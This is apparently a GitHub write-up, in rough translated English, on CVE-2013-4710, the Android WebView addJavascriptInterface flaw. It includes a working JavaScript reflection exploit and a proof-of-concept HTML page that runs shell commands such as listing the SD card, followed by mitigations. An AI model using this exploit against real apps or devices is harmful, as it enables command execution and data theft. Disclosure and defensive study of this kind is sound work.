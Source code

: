 # CVE-2013-4710-WebView-RCE-Vulnerability
### Vulnerability Description

A lot of the time we use WebView to display a Webpage,for example many applications in order to achieve the server control, many results page is Webpage, rather than the local implementation, which has many advantages, such as interface change does not need to release a new version, directly modify the line at Server end. With Webpage to display interface, usually are more or less with the Java code have interaction, such as a button click Webpage above, we need to know the button click event, or we have to call a method, make the page to perform some action, in order to achieve these interactions, we usually use JS to achieve, while WebView has provided such a method, the specific usage is as follows: 


	mWebView.getSettings().setJavaScriptEnabled(true);  
        mWebView.addJavascriptInterface(new JSInterface(), "jsInterface");
    
We asked WebView to register a name "jsInterface" of the object, and then can access to the jsInterface object in JS, you can invoke some methods of the object, the final call to Java code, so as to realize the interaction of JS and Java code.
We work together to have a look on the **addJavascriptInterface** method on the Android website description: 

_This method can be used to allow JavaScript to control the host application. This is a powerful feature, but also presents a security risk for applications targeted to API level JELLYBEAN or below, because JavaScript could use reflection to access an injected object's public fields. Use of this method in a WebView containing untrusted content could allow an attacker to manipulate the host application in unintended ways, executing Java code with the permissions of the host application. Use extreme care when using this method in a WebView which could contain untrusted content._

JavaScript interacts with Java object on a private, background thread of this WebView. Care is therefore required to maintain thread safety.
The Java object's fields are not accessible.

 
Simply put, is to use addJavascriptInterface may lead to insecurity, because JS may contain malicious code. This loophole and today we want to say is this, when JS contains malicious code, it can do anything.

--------


### Vulnerablity Impact:
Through the JavaScript, anything can access the device on the SD card, and even contact information, SMS etc.. It's disgusting, quack. 

1. WebView adds a JavaScript object, and the current application with SDCard read and write permissions, or: android.permission.WRITE_EXTERNAL_STORAGE

2. Through the window object can be found in JS, the object "getClass" method, and then through the reflection mechanism, get the Runtime object, then call the static method to run some commands, such as access to the file command.

3. The string returned from the execution command input stream, you can get the information of the file name. Then do what you want to do, good risk. The core JS code as follows: 


         function execute(cmdArgs)  
        {  
            for (var obj in window) {  
               if ("getClass" in window[obj]) {  
                alert(obj);  
                return  window[obj].getClass().forName("java.lang.Runtime")  
                     .getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  
              }  
           }  
       }   

------

### Exploitation

In order to prove this loophole, I'm just loading a malicious JS code of the local Webpage, HTML the code as follows:


    <html>  
      <head>  
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">  
        <script>  
          var i=0;  
          function getContents(inputStream)  
          {  
            var contents = ""+i;  
            var b = inputStream.read();  
            var i = 1;  
            while(b != -1) {  
                var bString = String.fromCharCode(b);  
                contents += bString;  
                contents += "\n"  
                b = inputStream.read();  
            }  
            i=i+1;  
            return contents;  
           }  
            
           function execute(cmdArgs)  
           {  
            for (var obj in window) {  
                console.log(obj);  
                if ("getClass" in window[obj]) {  
                    alert(obj);  
                    return window[obj].getClass().forName("java.lang.Runtime").  
                        getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  
                 }  
             }  
           }   
            
          var p = execute(["ls","/mnt/sdcard/"]);  
          document.write(getContents(p.getInputStream()));  
        </script>  
      
        <script language="javascript">  
          function onButtonClick()   
          {  
            // Call the method of injected object from Android source.  
            var text = jsInterface.onButtonClick("Text passed in from the JS！！！");  
            alert(text);  
          }  
      
          function onImageClick()   
          {  
            //Call the method of injected object from Android source.  
            var src = document.getElementById("image").src;  
            var width = document.getElementById("image").width;  
            var height = document.getElementById("image").height;  
      
            // Call the method of injected object from Android source.  
            jsInterface.onImageClick(src, width, height);  
          }  
        </script>  
      </head>  
      
      <body>  
          <p>Click on the image to the URL to Java code</p>  
          <img class="curved_box" id="image"   
             onclick="onImageClick()"  
             width="328"  
             height="185"
             src="https://avicoder.me/webview/phuck.png"  
             onerror="this.src='phuckerror.png'"/>  
        </p>  
        <button type="button" onclick="onButtonClick()">Interaction with the Java code</button>  
      </body>  
    </html>  

 1. Please seeexecute()The method, which the traversal of all window object, an object with a getClass method and then find, use this object class, find the java.lang.Runtime object, then call the "getRuntime" static method to get an instance of Runtime, and then call exec () method to execute a command.
 2. getContents()Methods, read from the stream, displayed in the interface.
 3. Key code is in the following sentences

`return      window[obj].getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);`

Java code is as follows: 
 
    mWebView = (WebView) findViewById(R.id.webview);  
    mWebView.getSettings().setJavaScriptEnabled(true);  
    mWebView.addJavascriptInterface(new JSInterface(), "jsInterface");  
    mWebView.loadUrl("file:///android_asset/html/test.html");  

Need to add permissions:  

    <uses-permission android:name="android.permission.INTERNET"/>  
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />  
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />  

------

### Mitigation
-  System Android 4.2 or above
In Android 4.2 or above, Google was modified, the statement on the Java remote method of a @JavascriptInterface, as in the following code: 


    class JsObject {  
       @JavascriptInterface  
       public String toString() { return "injectedObject"; }  
    }  
    webView.addJavascriptInterface(new JsObject(), "injectedObject");  
    webView.loadData("", "text/html", null);  
    webView.loadUrl("javascript:alert(injectedObject.toString())");  

-  System Android 4.2 below

This problem is difficult to solve, but also can not solve.
First of all, we must not call the addJavascriptInterface method. On this issue, the core is to know the JS event this one action, JS interacts with Java we know, there are several, than the prompt, alert, such action would correspond toWebChromeClientMethod, the corresponding class for prompt, which corresponds to theonJsPromptMethod, this method statement as follows: 


    public boolean onJsPrompt(WebView view, String url, String message,   
        String defaultValue, JsPromptResult result)  

By this method, JS can make information (text) transfer to Java, and Java also can get information (text) is transmitted to the JS.
